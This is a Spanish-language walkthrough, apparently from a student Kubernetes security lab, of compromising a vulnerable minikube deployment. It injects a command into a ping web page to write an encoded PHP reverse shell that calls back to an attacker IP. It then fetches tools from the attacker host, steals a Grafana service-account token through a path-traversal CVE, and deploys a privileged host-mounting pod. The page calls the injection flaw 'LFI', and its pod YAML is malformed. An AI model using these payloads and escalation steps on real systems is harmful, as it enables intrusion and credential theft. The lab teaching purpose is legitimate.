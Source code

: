 Tras desplegar el lab con minikube, con el comando 
```bash
minikube service --all
```
minikube lanza un IP con un puerto donde hay una web para lanzar ping a dominios o IPs. Dicha página es vulnerable a LFI:
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/web_lfi.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/web_lfi.png)
Por ello intentaremos transformar el LFI a RCE a través de una reverse shell con PHP, modificando la IP y el puerto donde vamos a escuchar con netcat con nuestra máquina. Nuestro objetivo es conseguir escribir un archivo dentro del sistema al cual accediendo se lanza una shell en nuestra máquina que está escuchando. Más información del proceso en [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Pasos:
1. Cambiamos la IP y el puerto y basemos el archivo php-revshell.php a base64.
```bash
base64 php-revshell.php
```
2. Ejecutamos este comando el la web (utilizando como IP la 192.168.1.131 y el puerto 80443):
```bash
google.com;echo "PD9waHAKLy8gcGhwLXJldmVyc2Utc2hlbGwgLSBBIFJldmVyc2UgU2hlbGwgaW1wbGVtZW50YXRp
b24gaW4gUEhQCi8vIENvcHlyaWdodCAoQykgMjAwNyBwZW50ZXN0bW9ua2V5QHBlbnRlc3Rtb25r
ZXkubmV0Ci8vCi8vIFRoaXMgdG9vbCBtYXkgYmUgdXNlZCBmb3IgbGVnYWwgcHVycG9zZXMgb25s
eS4gIFVzZXJzIHRha2UgZnVsbCByZXNwb25zaWJpbGl0eQovLyBmb3IgYW55IGFjdGlvbnMgcGVy
Zm9ybWVkIHVzaW5nIHRoaXMgdG9vbC4gIFRoZSBhdXRob3IgYWNjZXB0cyBubyBsaWFiaWxpdHkK
Ly8gZm9yIGRhbWFnZSBjYXVzZWQgYnkgdGhpcyB0b29sLiAgSWYgdGhlc2UgdGVybXMgYXJlIG5v
dCBhY2NlcHRhYmxlIHRvIHlvdSwgdGhlbgovLyBkbyBub3QgdXNlIHRoaXMgdG9vbC4KLy8KLy8g
SW4gYWxsIG90aGVyIHJlc3BlY3RzIHRoZSBHUEwgdmVyc2lvbiAyIGFwcGxpZXM6Ci8vCi8vIFRo
aXMgcHJvZ3JhbSBpcyBmcmVlIHNvZnR3YXJlOyB5b3UgY2FuIHJlZGlzdHJpYnV0ZSBpdCBhbmQv
b3IgbW9kaWZ5Ci8vIGl0IHVuZGVyIHRoZSB0ZXJtcyBvZiB0aGUgR05VIEdlbmVyYWwgUHVibGlj
IExpY2Vuc2UgdmVyc2lvbiAyIGFzCi8vIHB1Ymxpc2hlZCBieSB0aGUgRnJlZSBTb2Z0d2FyZSBG
b3VuZGF0aW9uLgovLwovLyBUaGlzIHByb2dyYW0gaXMgZGlzdHJpYnV0ZWQgaW4gdGhlIGhvcGUg
dGhhdCBpdCB3aWxsIGJlIHVzZWZ1bCwKLy8gYnV0IFdJVEhPVVQgQU5ZIFdBUlJBTlRZOyB3aXRo
b3V0IGV2ZW4gdGhlIGltcGxpZWQgd2FycmFudHkgb2YKLy8gTUVSQ0hBTlRBQklMSVRZIG9yIEZJ
VE5FU1MgRk9SIEEgUEFSVElDVUxBUiBQVVJQT1NFLiAgU2VlIHRoZQovLyBHTlUgR2VuZXJhbCBQ
dWJsaWMgTGljZW5zZSBmb3IgbW9yZSBkZXRhaWxzLgovLwovLyBZb3Ugc2hvdWxkIGhhdmUgcmVj
ZWl2ZWQgYSBjb3B5IG9mIHRoZSBHTlUgR2VuZXJhbCBQdWJsaWMgTGljZW5zZSBhbG9uZwovLyB3
aXRoIHRoaXMgcHJvZ3JhbTsgaWYgbm90LCB3cml0ZSB0byB0aGUgRnJlZSBTb2Z0d2FyZSBGb3Vu
ZGF0aW9uLCBJbmMuLAovLyA1MSBGcmFua2xpbiBTdHJlZXQsIEZpZnRoIEZsb29yLCBCb3N0b24s
IE1BIDAyMTEwLTEzMDEgVVNBLgovLwovLyBUaGlzIHRvb2wgbWF5IGJlIHVzZWQgZm9yIGxlZ2Fs
IHB1cnBvc2VzIG9ubHkuICBVc2VycyB0YWtlIGZ1bGwgcmVzcG9uc2liaWxpdHkKLy8gZm9yIGFu
eSBhY3Rpb25zIHBlcmZvcm1lZCB1c2luZyB0aGlzIHRvb2wuICBJZiB0aGVzZSB0ZXJtcyBhcmUg
bm90IGFjY2VwdGFibGUgdG8KLy8geW91LCB0aGVuIGRvIG5vdCB1c2UgdGhpcyB0b29sLgovLwov
LyBZb3UgYXJlIGVuY291cmFnZWQgdG8gc2VuZCBjb21tZW50cywgaW1wcm92ZW1lbnRzIG9yIHN1
Z2dlc3Rpb25zIHRvCi8vIG1lIGF0IHBlbnRlc3Rtb25rZXlAcGVudGVzdG1vbmtleS5uZXQKLy8K
Ly8gRGVzY3JpcHRpb24KLy8gLS0tLS0tLS0tLS0KLy8gVGhpcyBzY3JpcHQgd2lsbCBtYWtlIGFu
IG91dGJvdW5kIFRDUCBjb25uZWN0aW9uIHRvIGEgaGFyZGNvZGVkIElQIGFuZCBwb3J0LgovLyBU
aGUgcmVjaXBpZW50IHdpbGwgYmUgZ2l2ZW4gYSBzaGVsbCBydW5uaW5nIGFzIHRoZSBjdXJyZW50
IHVzZXIgKGFwYWNoZSBub3JtYWxseSkuCi8vCi8vIExpbWl0YXRpb25zCi8vIC0tLS0tLS0tLS0t
Ci8vIHByb2Nfb3BlbiBhbmQgc3RyZWFtX3NldF9ibG9ja2luZyByZXF1aXJlIFBIUCB2ZXJzaW9u
IDQuMyssIG9yIDUrCi8vIFVzZSBvZiBzdHJlYW1fc2VsZWN0KCkgb24gZmlsZSBkZXNjcmlwdG9y
cyByZXR1cm5lZCBieSBwcm9jX29wZW4oKSB3aWxsIGZhaWwgYW5kIHJldHVybiBGQUxTRSB1bmRl
ciBXaW5kb3dzLgovLyBTb21lIGNvbXBpbGUtdGltZSBvcHRpb25zIGFyZSBuZWVkZWQgZm9yIGRh
ZW1vbmlzYXRpb24gKGxpa2UgcGNudGwsIHBvc2l4KS4gIFRoZXNlIGFyZSByYXJlbHkgYXZhaWxh
YmxlLgovLwovLyBVc2FnZQovLyAtLS0tLQovLyBTZWUgaHR0cDovL3BlbnRlc3Rtb25rZXkubmV0
L3Rvb2xzL3BocC1yZXZlcnNlLXNoZWxsIGlmIHlvdSBnZXQgc3R1Y2suCgpzZXRfdGltZV9saW1p
dCAoMCk7CiRWRVJTSU9OID0gIjEuMCI7CiRpcCA9ICcxOTIuMTY4LjEuMTMxJzsgIC8vIENIQU5H
RSBUSElTCiRwb3J0ID0gJzgwNDQzJzsgICAgICAgLy8gQ0hBTkdFIFRISVMKJGNodW5rX3NpemUg
PSAxNDAwOwokd3JpdGVfYSA9IG51bGw7CiRlcnJvcl9hID0gbnVsbDsKJHNoZWxsID0gJ3VuYW1l
IC1hOyB3OyBpZDsgL2Jpbi9zaCAtaSc7CiRkYWVtb24gPSAwOwokZGVidWcgPSAwOwoKLy8KLy8g
RGFlbW9uaXNlIG91cnNlbGYgaWYgcG9zc2libGUgdG8gYXZvaWQgem9tYmllcyBsYXRlcgovLwoK
Ly8gcGNudGxfZm9yayBpcyBoYXJkbHkgZXZlciBhdmFpbGFibGUsIGJ1dCB3aWxsIGFsbG93IHVz
IHRvIGRhZW1vbmlzZQovLyBvdXIgcGhwIHByb2Nlc3MgYW5kIGF2b2lkIHpvbWJpZXMuICBXb3J0
aCBhIHRyeS4uLgppZiAoZnVuY3Rpb25fZXhpc3RzKCdwY250bF9mb3JrJykpIHsKCS8vIEZvcmsg
YW5kIGhhdmUgdGhlIHBhcmVudCBwcm9jZXNzIGV4aXQKCSRwaWQgPSBwY250bF9mb3JrKCk7CgkK
CWlmICgkcGlkID09IC0xKSB7CgkJcHJpbnRpdCgiRVJST1I6IENhbid0IGZvcmsiKTsKCQlleGl0
KDEpOwoJfQoJCglpZiAoJHBpZCkgewoJCWV4aXQoMCk7ICAvLyBQYXJlbnQgZXhpdHMKCX0KCgkv
LyBNYWtlIHRoZSBjdXJyZW50IHByb2Nlc3MgYSBzZXNzaW9uIGxlYWRlcgoJLy8gV2lsbCBvbmx5
IHN1Y2NlZWQgaWYgd2UgZm9ya2VkCglpZiAocG9zaXhfc2V0c2lkKCkgPT0gLTEpIHsKCQlwcmlu
dGl0KCJFcnJvcjogQ2FuJ3Qgc2V0c2lkKCkiKTsKCQlleGl0KDEpOwoJfQoKCSRkYWVtb24gPSAx
Owp9IGVsc2UgewoJcHJpbnRpdCgiV0FSTklORzogRmFpbGVkIHRvIGRhZW1vbmlzZS4gIFRoaXMg
aXMgcXVpdGUgY29tbW9uIGFuZCBub3QgZmF0YWwuIik7Cn0KCi8vIENoYW5nZSB0byBhIHNhZmUg
ZGlyZWN0b3J5CmNoZGlyKCIvIik7CgovLyBSZW1vdmUgYW55IHVtYXNrIHdlIGluaGVyaXRlZAp1
bWFzaygwKTsKCi8vCi8vIERvIHRoZSByZXZlcnNlIHNoZWxsLi4uCi8vCgovLyBPcGVuIHJldmVy
c2UgY29ubmVjdGlvbgokc29jayA9IGZzb2Nrb3BlbigkaXAsICRwb3J0LCAkZXJybm8sICRlcnJz
dHIsIDMwKTsKaWYgKCEkc29jaykgewoJcHJpbnRpdCgiJGVycnN0ciAoJGVycm5vKSIpOwoJZXhp
dCgxKTsKfQoKLy8gU3Bhd24gc2hlbGwgcHJvY2VzcwokZGVzY3JpcHRvcnNwZWMgPSBhcnJheSgK
ICAgMCA9PiBhcnJheSgicGlwZSIsICJyIiksICAvLyBzdGRpbiBpcyBhIHBpcGUgdGhhdCB0aGUg
Y2hpbGQgd2lsbCByZWFkIGZyb20KICAgMSA9PiBhcnJheSgicGlwZSIsICJ3IiksICAvLyBzdGRv
dXQgaXMgYSBwaXBlIHRoYXQgdGhlIGNoaWxkIHdpbGwgd3JpdGUgdG8KICAgMiA9PiBhcnJheSgi
cGlwZSIsICJ3IikgICAvLyBzdGRlcnIgaXMgYSBwaXBlIHRoYXQgdGhlIGNoaWxkIHdpbGwgd3Jp
dGUgdG8KKTsKCiRwcm9jZXNzID0gcHJvY19vcGVuKCRzaGVsbCwgJGRlc2NyaXB0b3JzcGVjLCAk
cGlwZXMpOwoKaWYgKCFpc19yZXNvdXJjZSgkcHJvY2VzcykpIHsKCXByaW50aXQoIkVSUk9SOiBD
YW4ndCBzcGF3biBzaGVsbCIpOwoJZXhpdCgxKTsKfQoKLy8gU2V0IGV2ZXJ5dGhpbmcgdG8gbm9u
LWJsb2NraW5nCi8vIFJlYXNvbjogT2Njc2lvbmFsbHkgcmVhZHMgd2lsbCBibG9jaywgZXZlbiB0
aG91Z2ggc3RyZWFtX3NlbGVjdCB0ZWxscyB1cyB0aGV5IHdvbid0CnN0cmVhbV9zZXRfYmxvY2tp
bmcoJHBpcGVzWzBdLCAwKTsKc3RyZWFtX3NldF9ibG9ja2luZygkcGlwZXNbMV0sIDApOwpzdHJl
YW1fc2V0X2Jsb2NraW5nKCRwaXBlc1syXSwgMCk7CnN0cmVhbV9zZXRfYmxvY2tpbmcoJHNvY2ss
IDApOwoKcHJpbnRpdCgiU3VjY2Vzc2Z1bGx5IG9wZW5lZCByZXZlcnNlIHNoZWxsIHRvICRpcDok
cG9ydCIpOwoKd2hpbGUgKDEpIHsKCS8vIENoZWNrIGZvciBlbmQgb2YgVENQIGNvbm5lY3Rpb24K
CWlmIChmZW9mKCRzb2NrKSkgewoJCXByaW50aXQoIkVSUk9SOiBTaGVsbCBjb25uZWN0aW9uIHRl
cm1pbmF0ZWQiKTsKCQlicmVhazsKCX0KCgkvLyBDaGVjayBmb3IgZW5kIG9mIFNURE9VVAoJaWYg
KGZlb2YoJHBpcGVzWzFdKSkgewoJCXByaW50aXQoIkVSUk9SOiBTaGVsbCBwcm9jZXNzIHRlcm1p
bmF0ZWQiKTsKCQlicmVhazsKCX0KCgkvLyBXYWl0IHVudGlsIGEgY29tbWFuZCBpcyBlbmQgZG93
biAkc29jaywgb3Igc29tZQoJLy8gY29tbWFuZCBvdXRwdXQgaXMgYXZhaWxhYmxlIG9uIFNURE9V
VCBvciBTVERFUlIKCSRyZWFkX2EgPSBhcnJheSgkc29jaywgJHBpcGVzWzFdLCAkcGlwZXNbMl0p
OwoJJG51bV9jaGFuZ2VkX3NvY2tldHMgPSBzdHJlYW1fc2VsZWN0KCRyZWFkX2EsICR3cml0ZV9h
LCAkZXJyb3JfYSwgbnVsbCk7CgoJLy8gSWYgd2UgY2FuIHJlYWQgZnJvbSB0aGUgVENQIHNvY2tl
dCwgc2VuZAoJLy8gZGF0YSB0byBwcm9jZXNzJ3MgU1RESU4KCWlmIChpbl9hcnJheSgkc29jaywg
JHJlYWRfYSkpIHsKCQlpZiAoJGRlYnVnKSBwcmludGl0KCJTT0NLIFJFQUQiKTsKCQkkaW5wdXQg
PSBmcmVhZCgkc29jaywgJGNodW5rX3NpemUpOwoJCWlmICgkZGVidWcpIHByaW50aXQoIlNPQ0s6
ICRpbnB1dCIpOwoJCWZ3cml0ZSgkcGlwZXNbMF0sICRpbnB1dCk7Cgl9CgoJLy8gSWYgd2UgY2Fu
IHJlYWQgZnJvbSB0aGUgcHJvY2VzcydzIFNURE9VVAoJLy8gc2VuZCBkYXRhIGRvd24gdGNwIGNv
bm5lY3Rpb24KCWlmIChpbl9hcnJheSgkcGlwZXNbMV0sICRyZWFkX2EpKSB7CgkJaWYgKCRkZWJ1
ZykgcHJpbnRpdCgiU1RET1VUIFJFQUQiKTsKCQkkaW5wdXQgPSBmcmVhZCgkcGlwZXNbMV0sICRj
aHVua19zaXplKTsKCQlpZiAoJGRlYnVnKSBwcmludGl0KCJTVERPVVQ6ICRpbnB1dCIpOwoJCWZ3
cml0ZSgkc29jaywgJGlucHV0KTsKCX0KCgkvLyBJZiB3ZSBjYW4gcmVhZCBmcm9tIHRoZSBwcm9j
ZXNzJ3MgU1RERVJSCgkvLyBzZW5kIGRhdGEgZG93biB0Y3AgY29ubmVjdGlvbgoJaWYgKGluX2Fy
cmF5KCRwaXBlc1syXSwgJHJlYWRfYSkpIHsKCQlpZiAoJGRlYnVnKSBwcmludGl0KCJTVERFUlIg
UkVBRCIpOwoJCSRpbnB1dCA9IGZyZWFkKCRwaXBlc1syXSwgJGNodW5rX3NpemUpOwoJCWlmICgk
ZGVidWcpIHByaW50aXQoIlNUREVSUjogJGlucHV0Iik7CgkJZndyaXRlKCRzb2NrLCAkaW5wdXQp
OwoJfQp9CgpmY2xvc2UoJHNvY2spOwpmY2xvc2UoJHBpcGVzWzBdKTsKZmNsb3NlKCRwaXBlc1sx
XSk7CmZjbG9zZSgkcGlwZXNbMl0pOwpwcm9jX2Nsb3NlKCRwcm9jZXNzKTsKCi8vIExpa2UgcHJp
bnQsIGJ1dCBkb2VzIG5vdGhpbmcgaWYgd2UndmUgZGFlbW9uaXNlZCBvdXJzZWxmCi8vIChJIGNh
bid0IGZpZ3VyZSBvdXQgaG93IHRvIHJlZGlyZWN0IFNURE9VVCBsaWtlIGEgcHJvcGVyIGRhZW1v
bikKZnVuY3Rpb24gcHJpbnRpdCAoJHN0cmluZykgewoJaWYgKCEkZGFlbW9uKSB7CgkJcHJpbnQg
IiRzdHJpbmdcbiI7Cgl9Cn0KCj8+IA==" | base64 -d > shell.php
```
3. Verificamos que se ha subido el archivo shell.php:
```bash
google.com;ls -l
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/googlecom_ls.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/googlecom_ls.png)
4. Ahora en nuestra máquina escuchamos por el puerto que hemos definido en el archivo php, en este caso el 80443:
``` bash
nc -lvp 80443
```
5. Una vez escuchando en el puerto, ejecutamos el comando:
```bash
curl http://<ip-web>:<puerto-web>/shell.php
```
Conseguimos entrar en el pod donde se está ejecutando el servicio web.
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/revshell.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/revshell.png)

Una vez dentro hacemos un reconocimiento en el pod:
1. Verificamos si podemos crear otros pods, para ello pasamos un binario de kubectl desde nuestra máquina creando un servidor web con python (recomendable copiar el bianrio en el archivo /tmp y ejecutar el comando ahí):
```bash
python3 -m http.server
```
Descargamos el binario y damos permisos de ejecución:
```bash
wget 192.168.1.131:8000/kubectl
chmod +x kubectl
```

Verificamos si es posible la creación de pods:
```bash
./kubectl auth can-i create pods
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/no_can-i create pods.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/no_can-i%20create%20pods.png)
2. Como no se puede crear pod vemos si hay otros servicios corriendo en el nodo.
```shell
env
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/env.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/env.png)

Vemos que hay un servicio Grafana corriendo en 10.103.238.75:3000. Buscamos la versión de Grafana para buscar posibles vulnerabilidades.
```shell
apk add curl
curl http://10.103.238.75:3000/login | grep version
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/grafana_version.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/grafana_version.png)
Vemos que la versión de Grafana es la "8.3.0-beta2". Buscando en internet vemos que es vulnerable a LFI, es decir podemos leer archivos del pod de Grafana. La vulnerabilidad esta clasificada con [CVE-2021-43798](https://www.exploit-db.com/exploits/50581).
Aprovechando la vulnerabilidad de Grafana podemos leer el JWT del serviceaccount de Grafana, para ver si en este caso es posible crear pods con dicho token.
``` bash
wget http://10.103.238.75:3000/public/plugins/alertGroups/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
export token=$(cat token)
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/token_env.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/token_env.png)Comprobamos si el posible crear pods con el token de Grafana:
``` bash
./kubectl auth can-i create pods --token=$token
```
![/home/alfesito/Documents/TFG/TFG-kubevuln/images/yes_can-i.png](file:///home/alfesito/Documents/TFG/TFG-kubevuln/images/yes_can-i.png)
Como es posible crear pods, podemos crear un [badpods](https://github.com/BishopFox/badPods) para escalar privilegios al nodo de Minikube.  Este es el YAML que utilizaremos.
```yaml
apiVersion: v1
kind: Pod
metadata
	name: everything-allowed-exec-pod
	labels:
		app: pentest
spec:
	hostNetwork: true
	hostPID: true
	hostIPC: true
	containers:
	- name: everything-allowed-pod
		image: ubuntu
		imagePullPolicy: IfNotPresent
		securityContext:
		privileged: true
		volumeMounts:
		- mountPath: /host
			name: noderoot
		command: [ "/bin/sh", "-c", "--" ]
		args: [ "while true; do sleep 30; done;" ]
	volumes:
	- name: noderoot
		hostPath:
			path: /
```
Copiamos el archivo en la el pod del servicio web, esto lo podemos hacer igual que antes con el servidor python, utilizando los comandos:
```bash
wget 192.168.1.131:8000/bad-pod.yaml
./kubectl apply -f bad-pod.yaml --token=$token
```
